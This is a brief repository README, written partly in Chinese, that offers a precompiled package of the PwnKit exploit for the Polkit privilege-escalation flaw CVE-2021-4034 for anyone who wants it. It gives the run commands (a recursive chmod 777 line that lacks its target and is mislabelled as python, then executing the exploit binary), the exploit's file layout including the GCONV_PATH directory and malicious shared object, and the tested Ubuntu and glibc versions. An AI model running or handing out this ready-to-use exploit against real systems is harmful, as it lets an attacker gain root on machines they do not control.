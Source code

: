 # Polkit-Permission-promotion-compiled
Polkit提权包 CVE-2021-4034 （供需要的人方便使用

源项目（需编译）：https://github.com/berdav/CVE-2021-4034

此为已编译后项目，全部导入

```python
chmod -R 777 2>/dev/null
```

```python
./exp
```

eg. dir tree：
```
CVE-2021-4034
├─ GCONV_PATH=.%
│    └─ pwnkit.so:.
├─ exp
├─ gconv-modules
├─ pwnkit.c
└─ pwnkit.so
```

Environment：
> ubuntu-16.04.7
> glibc 2.23

